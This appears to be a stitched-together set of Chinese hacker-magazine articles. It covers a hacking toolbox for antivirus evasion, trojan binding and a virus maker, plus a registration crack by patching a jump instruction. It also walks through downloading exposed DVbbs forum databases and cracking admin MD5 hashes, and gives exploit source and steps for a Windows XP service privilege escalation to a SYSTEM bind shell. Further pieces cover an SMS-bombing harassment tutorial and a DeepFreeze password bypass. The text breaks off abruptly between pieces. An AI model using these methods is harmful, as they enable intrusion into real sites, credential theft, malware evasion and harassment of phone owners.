当我们入侵了一台电脑后，如果因为对方电脑上有限制（如防火墙等）而无法上传EXE文件，我们就可以尝试将EXE文件转换为BAT批处理文件，然后再复制过去，这样就可以突破上传限制了。使用方法如图3，选择好文件后开始转换，在转换过程中耐心等待即可。还有一点要注意的是，转换出来的文件比较大，因此建议不要转换太大的文件。


##### 3. EXE文件转换成VBS脚本文件（EXE2VBS）

EXE2VBS的用途和EXE2BAT差不多。不过使用转换过后的VBS需要还原为EXE，在命令行下输入 `cscript [VBS文件路径和VBS文件名] [要还原的EXE文件路径和EXE文件名]`（例如：`cscript 2.vbs c:\c.exe`），即可还原出原来的EXE文件。别忘记了一定要把EXE2VBS的选项选上。

##### 4. 简单检查EXE的壳和EXE是否捆绑

这个功能只能做简单判断：EXE是否加壳（只限于查被加过aspack或upx的壳），以及是否捆绑（根据MZ标志来简单判断），如图4。


##### 5. 简易文件合并

文件合并功能只能合并两个文件，比较简单，不过目前为止可是免杀的绝招，捆绑木马来玩吧，如图5。

##### 6. 任意多文件组成整合

这个功能的原理就是DOS的Copy命令（小提示：Copy命令除了复制外还能将一份或多份文件叠加并且复制到另一个位置去）。大家可以使用这个功能批量叠加文件，如图6。举个简单的例子，我们先把自己需要的工具使用ZIP压缩，然后把压缩文件和一个图片文件使用本功能叠加，保存为图片。叠加图片依然可以正常显示，但是用鼠标右键点击该图片，选择“打开方式”到“选择程序”，再选择用“WinZip”打开，你就可以看到那些工具了。


##### 7. 批量文件名替换

这个功能是一个网友向我提出来的，他说他要保护一些文件，比如用来改文件后缀，让别人看不出来到底是什么类型的文件。说起来这个功能的确很方便呢。其使用方法如图7，选择好指定的文件夹，填上要替换的字符，执行后就可以了。


> **注意：**如果改的是后缀，请在Windows资源管理器里面设置显示文件后缀之后再执行。

##### 8. 文件创建时间修改

此功能和EXE文件图标更改的目的是一样的，都是用来欺骗对方。不同的是此功能面对的是所有类型的文件，而且还可以很方便地查看某个文件的创建时间和修改时间哦，如图8。


##### （二）加密解密

##### 1. MD5对照加密

记得以前玩上传漏洞，拿到别人论坛数据库的时候，就一边暴力破解，一边用数据库浏览器加上自己写的MD5对照来手工猜解，如图9。MD5对照的使用方法是在“相同提示设定”填上你要的MD5（16位或者32位都可以），输入的字符串若为MD5且与设定的相同时就会提示你。当然这种方法是要运气好才能猜中。如果是弱口令或者简单的密码，那么可以试在线MD5查询。我已经把它集成在Box里了。大家只要输入MD5字符串再点“获取通行证”，等待2秒后再点击“开始破解”。


如果图上的MD5数据库中有收集到该条记录，那么就会返回到“破解结果”里面；如果没有该条记录，就不会返回，或者返回的是“点击[开始破解]后还是不出现，那就是没有此数据”文字。需要注意的是那个“论坛密码破解”，我使用了以前针对论坛数据库内的用户密码破解的DV.exe，速度非常快。从数据库里复制MD5密码和用户名过来，点“开始破解”就行了。但是不能乱填MD5密码和用户名，一定要复制准确。如果乱填的话，会造成CPU占用率一直很高，而且破解N久都出不来。倘若不注意弄错了也不要紧，在进程管理器中结束两个名为DV.box的进程就好了。

##### （三）强行突破

##### 1. 突破灰鸽、Access密码破解、Serv-U管理密码读取

这些功能就不用我说了吧，大家一定都非常熟悉了，如图10。


##### 2. EXE/DLL文件资源查看

这个功能可以任意查看EXE/DLL文件内的资源，还可以取出来，但是不能修改，如图11。


##### （四）加壳压缩

##### 1. UPX Shell

这个小功能，是一定要加上的，因为实用嘛，如图12。


## 僵尸黑客

##### 2. 批量网页压缩

用来压缩网页木马最好不过了，而且压缩率还是比较高的，如图13。


##### （五）免杀加工

- 1. Reloc Shell（壳变形）、Morphine Shell（吗啡变形）、InjExe Shell（文件注射）

关于这三个功能我都把它们简易化了，如图14。


我们以Reloc Shell为例来讲一下，比如，某一个加了UPX壳的程序会被杀毒软件查杀，那么我们就把它的壳变形，需要借助PEiD来查询程序入口、文件偏移量、壳的区段、壳的区段偏移，如图15。查询完后填入Box内，设置DLL/EXE参数（提示：参数就是修改时的偏移量，一般DLL文件选择5，EXE选择5至9之间的整数，一般选6就够了），接着点击“开始壳变形”，免杀完成。


##### 2. 字符转换成进制

这个功能在06年第2期《黑客X档案》的菜鸟学堂中曾经介绍过，大家可以翻出来参考一下，如图16。


##### （六）扫描漏洞

##### 1. 端口扫描

端口扫描有两个版本，一个是用Box扫描，使用的时候请不要把“超时时间”设置得太短（输入IP的时候还可以看见物理地址哦）。另一个是用S扫描。不用多说，肯定是S扫描速度快了！毕竟是号称最快的扫描器，所以我借用了。在“ScanPort-Shell”里扫描之前请不要开很多的文件夹（就是Windows的资源管理器），因为这样子会影响判断返回信息存放的文件夹，不过Box目录的文件夹是可以打开的。在“ScanPort-Shell”里扫描完成后会自动整理S扫描返回的信息，这样我们就可以很方便地调用了，如图17。


##### 2. SQL利用

玩过SQL的SA空口令的朋友应该都用过类似功能的软件。因此，我也把它加了进来。大家可以结合端口扫描功能，配合来使用，如图18。


##### （七）记事脚本

它既是一个脚本设计器，又可以当作记事本使用。如果当作记事本，我相信不比Windows自带的那个差。它能简易做批处理，也可以方便地写VBS脚本，右键还可以插入常用语法，还能直接运行调试。对于VBS，如果你的代码有语法错误，在运行调试的时候它会提示的。不管是批处理，还是VBS脚本，都能生成独立的EXE（就是VBS2EXE和BAT2EXE功能），让你更方便使用，如图19。


我们来看一个制造病毒的简单例子。首先，把VBS选择框选上，然后点击“快捷菜单”里面的“病毒制造[攻击]”，接着Box会提示你，在目录下会生成一个bdl.txt的文件，如果你改成了VBS那么肯定会被杀毒软件查杀，此时我们就能用上VBS2EXE这个功能了。把bdl.txt拖进Box的文本框内（或者打开选择也可以），点击“生成EXE”，Box的目录下会生成一个VBS2EXE.exe，这个病毒就完成了。我还提供了一个解毒的代码，是“快捷代码”里面的“反向病毒[恢复]”，如图20。怎么样？大家还不快点去试试？

> 小提示：虽然转换成EXE后，杀毒软件不查杀了，但是在病毒运行的时候，杀毒软件还是会提示有脚本运行的。


这个功能总体说来还是好用的！不过有些地方还不够完善，以后有时间我会修改完善的。

##### （八）网络相关

##### 1. 下载器

我一直使用这个功能来查看网页源码，偶尔也用来下载一些东西，如图21。


##### 2. HTTP静态服务器

有网友跟我说过，这个功能没有NETBOX强大。我也知道自己不可能做到跟专业的NETBOX一样强大，够用就行嘛。这个HTTP静态服务器支持Html格式的网页和PHP格式的网页（对于PHP格式的支持可能不怎么好用），支持ZIP压缩文件下载（注意：只支持ZIP，RAR格式不行）。

在Box目录下有一个wwwroot文件夹，文件夹里就是用来存放网页和供下载的压缩文件。然后在Box里面把默认主页改成wwwroot文件夹内的主页文件名，也可以在Box目录下的conf.ini文件内改。弄完这些之后点击“启动”即可浏览器访问你自己的IP了，外界连接会保存在Box目录下的Log.txt里，正在访问的远程主机IP会显示在Box上，如图22。

现在传大文件简单了，直接让你的肉鸡从你机器上下载大文件吧。要出去“办事”的时候，把自己家里的电脑开着，到时候就可以露一手了。


##### （九）系统控制

我叫它“图形化简易命令行”，因为我把DOS操作可视化了，而且全是快捷操作。还加上了大名鼎鼎的MT的功能，显得更加强大，如图23。


在图23的下方，是输入命令提示符的地方，在输入栏内键入DOS命令后，按回车键就可以返回信息到回显框了。在输入栏的右边也加入了人性化的操作，按钮“快”就是快捷操作的意思，点击“快”出现如图24的菜单，这样就省得大家输入了。按钮“全”的作用是全选回显框内的文字。按钮“清”是清空回显框内的文字。


在图24的右边，是系统控制区域。点击“查看所有系统进程”，回显框内会出现两种进程列表形式，一种是简易的，另一种是详细的。简易的只能看见进程的PID和文件路径，就是MT的进程列表。详细的能看见进程的内存使用情况和进程的窗口名称等等，就是系统自带的tasklist功能。如果你要查找某个进程或者关键字，就用图24右下方的查找功能。看完系统进程信息后，可以结束你想要结束的进程，比如：发现木马XXX.exe，把该进程的PID复制到“结束进程”的文本框内，点击“结束进程”即可；如果木马是两个进程的话，那么就用“同时结束进程”，把它们给结束掉。也可以查看进程所调用的DLL，比如：想看看XXX.exe进程调用了哪些DLL，我们就把XXX.exe填入“进程DLL”的文本框内，点击“进程DLL”后就可以慢慢分析了。接下来是“查看进程所用端口”，点击它等待片刻（搜索会花一些时间）就可以看见现在有哪些程序正在访问网络了。

## 傻瓜黑客

以显示出是哪些进程中的 DLL 是有访问网络功能的。再来试试“查看进程对应的服务”，这个也是查木马的好功能，它能让你清楚地看见现在正在运行的程序是不是服务，如果不是，会显示“缺失”。如果你哪天看见一个 svchost.exe 进程，后面是“缺失”，那就说明你的爱机被马踩了。

最后要讲的是“DLL 被调用情况”，输入要查询的 DLL 文件名后，可以查询到有哪些进程正在调用该 DLL。此功能有什么用途呢？我来说个简单的例子。比如，上一次，我在朋友家电脑的 system 目录下发现一个 DLL 的创建时间很靠前，文件名是 IOSER.dll，我就用这个查了一下，结果竟然在 Explorer.EXE 里。根据经验，Explorer.EXE 所包含的 DLL 中没有 IOSER.dll，那么这个 DLL 一定是木马了，立刻重新启动进入 DOS 下删除该 DLL 文件。

到此，系统控制板块介绍完了。系统控制是我最喜欢的功能，我希望这个功能能给大家带来方便。

#### 三、小结

至此，Box 就简单地介绍完了，以后我会根据大家的建议，将 Box 做得更完善。如果大家对于 Box 有什么更好的想法，可以在 X 档案的论坛上发帖，我看到后会尽量回复。最后声明一下，Box 只做技术研究用！

（本文涉及的相关工具：JiaJia_Box V2.0，光盘中有收录。）


有时，我们会发现通过搜索引擎返回的搜索结果却不能访问，就不能看到完整的内容信息。例如：当我们使用“Should I Use IDENTITY or Not?”作为关键字来搜索的时候，通过点击第一个返回结果将会看到图 1 所示的页面。看到了吧！我们并不能看到完整的文章内容，但是我们却可以通过“网页快照”来查看全部的内容。为什么会这样呢？其实当你使用客户端（IE/Firefox 等）访问站点的时候，站点依赖“User-Agent”字符串的不同来返回不同的内容。

比如，我们平时使用 Firefox 客户端访问站点时，“User-Agent”设置为“Firefox/1.5”，而 Googlebot 访问站点时，“User-Agent”设置为“Googlebot/2.1;+http://www.google.com/bot.html”，如图 2、图 3。


因此，我们只要把“User-Agent”设置成“Googlebot/2.1;+http://www.google.com/bot.html”就可以达到和 Googlebot 一样的结果了。知道了原理，我们就开始来改造我们的 Firefox 吧！

打开 Firefox，在地址栏输入“about:config”，在 Filter 输入“general.useragent.extra.firefox”，修改参数值为“Googlebot/2.1;+http://www.google.com/bot.html”，如图 4。


好了，现在我们再次访问刚才的站点，哈哈，能看到全部内容了，如图 5。


补充：Googlebot 是 Google 的 Web 抓取漫游器，它从 Web 上收集文档，为 Google 搜索引擎建立可搜索的索引。

### 用技术吃面子饭，面子问题

我们平时设置的电脑登录，基本上都是依靠账号及密码。而依赖指纹、声音来用于身份识别的，基本上是电影里出现的镜头。虽然在现实中这种技术也早已经被应用，不过也代表着高昂的价格，对于我们这类平凡的小菜来说，更是难得有机会接触这种“高科技”了。我在网上翻了许久，却意外地找到一个类似的安全程序——Alparysoft VideoLock。它依靠的不是密码，而是我们的这张脸（对，就是 face），来作为系统钥匙解锁系统。怎么样？不错吧，是不是有点“高科技”的味道了。当然，前提是我们必须要有一个视频设备，也就是摄像头。

小龙猪

### 一、软件介绍

Alparysoft VideoLock 是一个英文软件，不过热心的朋友已经制作好了汉化包。它是一款能够辨识主人脸孔的计算机存取控制软件，也是全球第一套可以透过摄像头来辨识使用者的软件。在使用该软件前，必须要有摄像头，然后在摄像头前将您的脸部影像添加到该软件的数据库中。以后，只有通过了脸孔辨识，才有计算机使用权！

### 二、软件安装和破解

首先运行解压后的 setup 程序进行原版的安装，再运行汉化程序就可以使用简体中文版本了。不过注意这个汉化补丁里包含了两个“流氓”程序，大家在安装的最后不要选择这两个程序就可以了。

安装后打开程序，发现软件在未注册的情况下有功能限制，用户不能更改安全级别和警告级别。找了好久也没发现破解补丁或者注册机，只能手动破解了。

通过注册处很容易知道软件利用机器码和注册码进行验证，说明可以进行本地突破。随便提交一个错误的注册码，得到一个错误的提示。用 PEiD 载入程序，发现软件是使用 Visual C++ 6.0 编写的，并没有加壳（图1）。

有了这些信息，破解就好办多了。打开 W32Dasm 装载程序目录下的 VideoLock，然后通过参考菜单下的串式数据，参考查看注册信息提示的地方，很顺利找到了软件注册错误后的提示内容：“无效的注册码”。双击后发现验证只有一处。在提示上方得到了程序跳转的地址 004255C3，再往上找就能看到这样一段：

```
004255C3 75DE jne 004255D3
```

把 jne 改为 je 就可以了。利用 W32Dasm 定位到这一条后，利用 HEX EDIT 功能把 75 修改为 74 保存，或者利用 UltraEdit 把 16 进制数据修改后保存。完成后输入一个注册码，成功成为注册用户（图3），这样我们就可以完全使用 VideoLock 的所有功能了。


### 三、软件的使用

程序首次打开后会提示输入用户名和密码，我们可以任意输入。打开程序后我们可以看到这里包含了 5 个项目：识别训练、设置、查看日志、关于和注册。我们先来看下“识别训练”，在此处大家可以把自己的面部捕捉下来存放到软件的数据库中保留。注意这里的校准指的是识别的准确度，如果是 0 就表示最高准确度，也就是完全匹配，2 表示最低的准确度。一般把基准设置到 1 就可以了，这样可以确保检验标准的合理。建议大家多存放一些图，本人建议至少放 10 张，这样检验才会比较有效（图4）。

接下来就是程序的核心“设置”栏。此处摄像头设置是用来选择当前用户使用的设备型号，如果你有多个视频设备，请选择当前使用的那一个，登录进不了系统可别怪我哦。在安全级别里，可以看到三个检测项目：用户检测、脸部检测和运动检测。感觉这三项利用价值区别不大，运动检测可以根据运动极限设置的值来判断，值越高则更容易判断。


用户检测虽然指定的是管理员才能开启，实际上只是检测成功后会给出一个提示，并且不需要输入密码（图5）。


这里的警告级别就不介绍了，一般设置到“无”就可以。有关警告级别的设置，有兴趣的朋友可以研究一下。下面的锁定热键可以自己定义，但是一定不要和一些其他程序的热键冲突。等待时间就是设置系统空闲多久后自动锁定，也是按需要而定。更改名称里可以修改当前软件配置的管理员信息，一般情况下这个“设置”项目下按照软件默认的信息就可以了（图6）。


跳到屏幕保护，即使你使用鼠标点击屏幕后，虽然返回了内容，实际上你可以发现你的摄像头已经开启，这个时候 VideoLock 已经开始工作了；如果视频设备读取到的内容不符合数据库中的用户面部信息，那么就会继续锁定。只有自己回到电脑前，晃这么两下子，程序才会开锁，是不是很有意思？如果你安装摄像头，但是软件提示找不到视频设备，可以重新插入 USB 接口并用系统自带的功能检测一下，这样就可以打开 VideoLock 了。

最后来看一下日志信息，这里记录了软件根据用户脸部信息验证成功后的记录情况，事件类型分别是对应你设置的检测类型。同时这里还保留了软件检测前后捕捉的图像，我和数据库中保存的图片对比了一下，没有任何一幅是相同的，看来软件判断的能力还真够智能化（图7）。

相信大家了解了上述一些基本情况后，用起来就得心应手了。平时我们只要在离开后，右键系统托盘下的 VideoLock 图标，或者通过设置的热键就可以锁定系统了。当系统锁定后，会自动跳到屏幕保护……

### 四、总结

其实解开的办法也是很简单，我们只要很快调出任务管理器并结束“VideoLock”的进程就可以成功解锁。因为软件在启用屏幕保护的过程中存在时间差异，并且程序的工作完全靠自身来完成，也没有利用插入进程等技术。

## MD5密码轻松破

今天要推荐给大家的是一个破解 MD5 密码的网站：http://www.xmd5.org/。据说这个网站收录了 500 万个词条，因此，破解一些简单的密码，比如纯数字或者纯字母，诸如 love、56896 等等的，还是不在话下的。

我们测试一下，在图1中输入“love”并点下“加密”，很快网站便将此词条加密，然后我们点下“解密”，并输入密文按下“给我转”，结果如图2所示，密码成功破解。sj703 的 md5 密文是 d5b16ad3220905c，我们再破解看看，此时结果如图3所示，表明不能破解，因为网站数据库中没有这个词条。


可能大家会认为这个网站没有多大用处，其实你完全错了。下边我就举两个例子来说明这个网站在入侵中的方便。

### 实验一：破解网站管理员前台与后台密码

我们打开“挖掘鸡”，并在“关键字”处输入：powered by DVbbs version 7.0.0 sp2；随后添加后缀：/bbs/data/dvbbs7.mdb，如图4。我们点下“开始”，很快挖掘鸡便帮我们找好了很多符合条件的网站，如图5。


随便找一个，双击便可将它的数据库下载下来。下载后我们使用“精臣数据库浏览器”将其打开，在图6中找到 dv_user，先查找前台管理员的用户名和密码，结果如图7，“xxx”就是前台管理员的名字，密码为 9464ad8d78a256df，显然是 md5 加过密的。我们打开 www.xmd5.org 在“解密”处输入密文，按下“给我转”，很快密码就出来了，如图8。有了前台管理员的密码还是没有用的，我们还要找到后台管理员的用户名和密码。同样我们在图6中找到 dv_admin，并从中找到后台管理员的用户名和密码，将密码通过前面的方法进行破解即可。


不过我今天找的网站具有代表性，是一种理想环境。理想在哪里呢？一是前台和后台管理员的用户名和密码是一样的，二是管理员密码比较简单，全是数字。

其实在入侵中这样的情况是很少见的，稍微有点安全意识的管理员都会将密码设置得很复杂。不过这个方法在我们找肉鸡的时候还是有用的，特别是在对付那些安全意识很差的管理员的时候更是可以大显神威。基本步骤和实验一类似，还是先打开“挖掘鸡”在“关键字”处输入：powered by DVbbs version 7.0.0 sp2，并添加后缀 /bbs/data/dvbbs7.mdb。我们随便下载一个数据库并用“精臣数据库浏览器”打开，在图9中我们点击“dv_user”，出现图10所示界面，随便找个用户看看，如图11，找到 md5 密文为 03a1db5893be0d16。同样我们打开 www.xmd5.org 进行密码破解。


可能有读者要问我了，不是说破解用户邮箱密码的吗？怎么现在破解的是用户进入论坛的密码啊？告诉你一个常识：按照工程学的原理，一般人都喜欢只用一个密码，这样主要是为了省事方便，但另一方面也给我们入侵提供了很好的条件。如果你不相信，可以将破解得到的密码输入他的邮箱看看，我估计能进去的可能性有 80%。


好了，今天的实验到此结束了，方法很简单，思路也很明确，只用了两个工具和一个网站。不过在此我还要补充说明一下使用挖掘鸡的注意点，比如我刚才利用挖掘鸡搜索关键字：powered by DVbbs version 7.0.0 sp2，后缀：/bbs/data/dvbbs7.mdb，问题就出在 /bbs/data/dvbbs7.mdb 上面。由于现在网管的安全意识越来越高，也可以人为构造一个 /bbs/data/dvbbs7.mdb 目录，说白了就是 dvbbs7.mdb 不是数据库的名字而是目录名字，在 dvbbs7.mdb 目录里面放一个 index.asp 文件，在 index.asp 文件里面放木马之类。这样一来，在图5中如果你双击此目标网站时，打开的只是一个网页，在你感到疑惑时不知不觉已经中了木马了。基于上面的原因我提供给大家一种防范方法：下载数据库的时候不用手动双击下载，也不要在浏览器的地址栏中输入数据库的地址，而是用 flashget 等下载工具去下载。如果 dvbbs7.mdb 真的是目录的话便不能下载。

（本文所涉及的相关工具：精臣数据库浏览器、挖掘鸡，光盘中有收录。）

### Windows SSDP and UPnP 本地权限提升测试

孟方明(-273℃@EST) & 刘会(TSU)

### 一、漏洞简介

刚看到这个溢出程序的时候，我还以为又一个本地溢出漏洞被发现了呢！可是打开细看，却感觉不太对劲，既没有微软的漏洞编号，也没给出漏洞资料的地址。在网上找到了一些相关资料后，才明白这并不是一个本地溢出漏洞，而是一个默认配置上缺陷引起的权限提升。

Windows XP 的默认配置下，SSDP 和 UPNP（以及部分系统服务）允许普通用户修改其服务配置。一个普通 users 组用户即可对这些系统服务进行启动、停止甚至修改服务程序路径等操作。下面在 Windows XP 环境中进行测试说明。


### 二、漏洞测试

根据漏洞原理，可以使用服务修改工具（如 `sc.exe`）在普通用户权限下配置相关服务。文中使用溢出程序便于演示：先在低权限用户环境中运行 `runas /profile /user:nfm cmd.exe`，然后尝试把目标服务（如 upnphost）对应的启动路径替换为后门程序路径。

为了便于测试，后门以服务形式监听本地 1314 端口，并通过替换 upnp 服务实现随系统启动加载。随后在新 cmd 窗口中进入漏洞利用程序目录，查看程序参数与可用服务列表。


图1


用法上先通过 `-l` 选项查看可利用服务，再用 `-m` 选项指定待替换服务名与后门程序路径。例如：`servicechecker -m upnphost j:\temp\upnphost.exe`。修改成功后再次查看可见 Path 已替换，再启动服务并通过 `telnet localhost 1314` 验证获得 shell。


图2

图3

shell 是继承了 mfm 用户的权限，无法添加用户。


图4


图5


图6


图7

程序上面不能用于系统登录，其中的 LocalSystem 账户是最高权限，对系统有全部的访问权，而剩下两个账户都只能访问一些特定的系统资源。那么看看我们要替换的 upnp 服务是在什么系统账户下运行的呢，如图8，哈哈！原来是 LocalService 账户下启动的这个服务，怪不得不能添加账户呢。知道了问题的所在，修改起来也就容易多了，打开溢出程序的源代码，找到如下代码处：


图8

```cpp
if (ChangeServiceConfig(
    Svc,
    SERVICE_NO_CHANGE,
    SERVICE_AUTO_START,
    SERVICE_ERROR_IGNORE,
    argv[3],
    NULL,
    NULL,
    NULL,
    NULL,
    NULL) != 0)
{ ... }
```

关于 ChangeServiceConfig 这个函数的用法和参数意义大家可以去 msdn.microsoft.com 查阅，其中与权限相关的参数就是第 9 和第 10 个参数。第 9 个指定了该服务要在哪个账户下启动，而第 10 个则是这个账户的密码。源代码中使用的是 NULL，表示使用原值，所以我们才没有得到系统的完全控制权。那么我们只要把上述代码修改成如下就可以了：

```cpp
if (ChangeServiceConfig(
    Svc,
    SERVICE_NO_CHANGE,
    SERVICE_AUTO_START,
    SERVICE_ERROR_IGNORE,
    argv[3],
    NULL,
    NULL,
    NULL,
    "LocalSystem",
    NULL) != 0)
{ ... }
```

可能大家现在都会认为等到系统重新启动，管理员登录系统后，我们 telnet 得到的 shell 就可以为所欲为了。我当初也是这样想的，结果重新启动后得到的 shell 权限依然很低！怎么回事呢？不是说权限可以被提升的吗？为什么得到的还是这么低的权限啊？

带着上边的这些疑问我又重新仔细地阅读了一遍相关资料，才明白过来。Windows 的账户分为系统账户和用户账户。与服务有关的账户就是系统账户了，在 Windows XP 中系统账户分为三种，即本地系统账户（LocalSystem）、本地服务账户（LocalService）和网络服务账户（NetworkService）。这三个账户都只能用在服务程序上。

通过上面的修改后，我们在使用修改版的 exploit 时，完全不需要等待重新启动系统，而可以像前面的测试那样替换完成后，直接使用 `net start upnphost` 来启动服务，得到的也是最高权限。图9再次给大家展示了一下漏洞利用的过程，大家注意看划线部分的信息：我们直接在 mfm 这个低权限的用户下将服务程序路径修改后，又成功地停止和启动了 upnphost 服务。当服务启动完成后，我们的 shell 就在 1314 端口静静地等候我们了。这个时候我们无需等待系统重新启动，而可以直接使用 `telnet localhost 1314`。

得到一个 shell，这个 shell 就是系统最高权限，如图10。


到此，我们的整个测试过程就结束了。漏洞的利用是非常简单的，但威力却不小，还希望广大读者能从中得到自己想要的东西。

依然会出现这样那样的缺陷，网络安全是一个永恒的话题，只要大家肯钻研，没有什么是完成不了的！最后，我从网上又找了一个溢出程序 winacls.exe，编译后也一并提供给了大家，其使用方法与上边的类似。

> （文章中涉及到的溢出程序 servicechecker.exe、后门 upphost.exe、winacls.exe 以及漏洞的 PDF 资料已经收录于光盘中。）

## 三、后记

Windows 操作系统的权限机制其实已经相当健全了，但是……

“本人年收入，请勿‘借’骚扰！”这是我 QQ 的留言……（后续为短信骚扰与手机注册页面攻击思路叙述）


对于怎么找手机注册页面，这个很简单，到百度或者 Google 搜索“手机注册”或“注册手机会员”等等，总能找到一大堆的网址。利用这些短信发送平台实施攻击……


我们填上要攻击的手机号码，不断地点发送……手动攻击效率太低，于是找了一个软件——全能鼠标键盘记录器，如图3。但要注意，一定不能找像图4那样需要输入附加码的注册页面。

因为全能鼠标键盘记录器的动作是死的，而附加码是活的，这就是无法实施有效攻击了。我们点击记录器上的重新录制，出现对话框后点确定，然后依次在注册网页填手机号、点击“发送”，按 ALT+E 停止录制并回放。


图5

我们只要在播放次数上稍稍改动一下就可以了，比如填上100或者500或者100000（^_^），其他的就不用理它。然后点确定，就开始自动化攻击了，效率大大得到提高，攻击的时候它会自动打开一个记事本，在电脑的右下角你可以看到攻击的进度，如图6。


图6

上边的方法我们还是感觉不爽，因为在播放的时候我的电脑很卡，什么事情也做不了，能不能有一种方法让我们即舒服地喝可乐又 Happy 地想着受害者痛苦的表情？有！我们找一个手机炸弹的攻击软件，如图7。


图7

这种软件能帮我们解决人工输入的痛苦，填上号码，点击就可以了，是否很爽啊？不过这样的有效性太低，因为这种攻击软件都是针对某个网站的漏洞编写的，有一定的时效，管理员把漏洞补上的话就失效了，无法达到我们的目的。而且这种攻击太没有挑战性了，不适合我们这些21世纪的“黑”才。下面要隆重上场的就是我们中国人非常骄傲的、非常有才华的牛皮的偶像——小榕哥的刀光雪影之一“渊雪”，本来渊雪是专门用来破解 Web 网页密码的软件，但被我发现也可以用它来进行手机攻击，真是一物多用啊。

先安装英文版，然后将补丁释放到原英文版目录即可。安装完毕以后我们打开工作地址栏，填上我们在前面已经找好的网页，这里有一点要特别注意，这个网页在填完手机号码或者小灵通号码以后不需要输入注册码。还有一点很重要，就是这个网页不能同时有两个要输入号码的地方，否则我的攻击就不会成功了。而且我们在实施之前应该试试连续发送2次以上是不是都能发送成功，若出现“手机号已经注册过”或者“每个手机号每天只能发送5次”等等就马上去找别的网页，因为我们要找的网站能无限次数地发给手机用户，呵呵。

填好网址等页面打开以后，在菜单栏的“模式”选项里选择“标准模式”，如图8。然后我们按 CTRL+I 导入表单，如图9。


图8


图9


图11


图10

我们自己新建一个文本文档，我命名为 phone.txt，存在 C 盘根目录下。在文本里填写上对方的手机号码，要注意文本文件里面一行只能写一个手机号码，如图10，否则我们也不会成功，切记！

然后我们复制啊复制，复制 N 列，也就是发送 N 条短信给他，N 的值可以自己取，没有标准答案。做好以后，双击在浏览中与号码相对应的表单——MobilePhone（注意：不一定是 MobilePhone，可能是 mobile 或者 phonenumber 等等，总之与网页的内容是一一对应的），顺便把无关紧要的内容勾去，只留一个输入号码的内容就可以了，在弹出的对话框选择“字典模式”，选择文本文档 `phone.txt`，如图11。确定以后我们还要测试一下，看看能不能发送成功，选择菜单栏的“运行”里面的“提交测试”，如图12。


图12

# 瘦瓜黑客

这时如果浏览器中的网页跳向另外一个网页，说明我们的测试是成功的，也就说明攻击是有效的。然后返回，重新开始大规模的提交，点击菜单栏“运行”里的“开始/重新开始(S) CTRL+R”选项，这时会提示保存扫描文件路径，我们默认即可，再点确定，如图13。


可以了，这里我填上 `13770**5390`，点“确定”，会弹出一个对话，我们全部选中就是发送所有的短信，如图15。


此时开始提交数据了，稍微等一下，会弹出一个对话框，如图14，我们在“错误标记”上填一些内容，由于我们不是要破解网站密码，因而可随便在网页中复制一点东西到上面就可以了。

军令如山倒，呜呼，攻击开始了，同时快乐和痛苦也马上开始……这种攻击方法非常有效，成功率较高。爱它上万条短信，看他手机能不能承受得住，手机死一生！哦呀！除了按卡别无选择，攻击结果验证了。一句话：你的快乐是建立在别人的痛苦之上的。

## 后记：

本文只是让大家知道手机攻击方法的基本原理，希望大家不要随便攻击别人，并永不犯河水，各行各道，各修其身！对于此类防范方法，我们要及时通知有此类漏洞的网站管理员，及时补上漏洞，同时不要在网站上的注册资料里随便留下自己的手机号码……

## 一、简介

对于“斗争”在网吧第一线上的网吧小菜们来说，还原精灵和还原卡可谓是再熟悉不过了吧！它的主要功能就是将硬盘上的数据锁定，即不让计算机在发生意外时丢失数据，也不让非法用户写入数据。


当满世界都充斥着如何破解还原精灵和还原卡的方法时，网管们也没有停歇，他们在寻找性能更好、更安全和不容易被“别有用心者”破解的还原类软件。`DeepFreeze` 就是这样一款还原软件。

“DeepFreeze”可以起到还原卡的功能，甚至比还原精灵还要好很多。安装过“DeepFreeze”的计算机会在任务栏出现一个“电脑上覆盖着冰雪”的图标，它就是“冰点还原”的图标。


对于那些隐藏了“冰点还原”图标的计算机，您可以使用快捷键 Ctrl+Shift+Alt+F6 呼出。

“冰点还原”并不像其他的系统还原软件一样允许你进行手动还原，只有“开机还原”“重启 N 次后还原”和“不还原”（系统将失去保护），如图2，因此，该软件可以说只适合在网吧这样的环境中使用，并不适合一般的个人用户。


Deep Freeze Cracker 是一款模仿“冰点还原”控制平台的软件，它最大的特点就是不需要控制平台的登录密码，就可以对“冰点还原”进行“冻结”“重启启动 N 次后再次冻结”和“解冻”等操作，如图3。

## 二、工具使用

- 1. **“冻结”**：再次重新启动计算机后，进入还原保护状态。
- 2. **“重启启动N次后再次冻结”**：再次重启后进入倒计时不还原状态，当次数为零时自动切换为还原保护状态。该功能便于网管更新数据。
- 3. **“解冻”**：再次重启后进入不还原保护状态，系统进入无“冰点还原”保护状态。


> 特别提示：Deep Freeze Cracker 有两个版本，分别运行在 98 和 2000/XP 系统上，并且能够对下列版本的“冰点还原”进行免密码登录控制平台操作。

### 受影响“DeepFreeze”漏洞版本：

| 系统 | 版本 |
|---|---|
| Windows 9X | 3.32.000.0534, 5.10.051.1089, 5.20.250.1125, 5.30.150.1181, 5.40.051.1248, 5.50.051.1288, 5.50.051.1299, 5.50.051.1302, 5.50.150.1302, 5.60.051.1347, 5.60.150.1347, 5.70.051.1372, 5.70.250.1372 |
| Windows 2K/XP | 4.20.020.0598, 4.20.021.0613, 4.20.120.0604, 4.20.121.0613, 5.10.021.1089, 5.20.220.1125, 5.30.120.1181, 5.40.021.1248, 5.50.021.1288, 5.50.021.1299, 5.50.021.1302 (not patched/patched), 5.50.120.1302 (not patched/patched), 5.60.021.1347 (not patched/patched), 5.60.120.1347 (not patched/patched), 5.70.021.1372, 5.70.220.1372 |

“DeepFreeze”跟一般的还原类软件用法不一样。它不支持在 DOS 下的操作，在计算机启动自检完毕后，不可以通过按键盘上的 Home 键调出其还原设置界面的 DOS 下控制台，还原情况和还原保护是既选既用的（即对其进行改变状态操作后，马上生效）。但冰点还原就不一样了：比如要重启3次后进入还原状态，那么要先选中第2项点击“保存设置”退出软件，重启电脑，这样才起到不还原作用。无论选择哪种状态都必须点“保存设置”后重启才生效。

对于“冰点还原”控制平台登录密码的一些研究：第一，“冰点还原”的密码是管理员进行管理的凭证，如图5。

“DeepFreeze”，我们最大的愿望就是获得它的密码！Deep Freeze 的密码存放在系统盘下的 Persi0.sys 文件中，在一般状态（指 Windows 系统）下，除了 Deep Freeze 本身，Persi0.sys 文件是不允许进行（打开、复制、粘贴）操作的。即使拿到了 Persi0.sys 这个文件，Deep Freeze 经过层层加密，要获得密码如没有专业知识基本不可能。

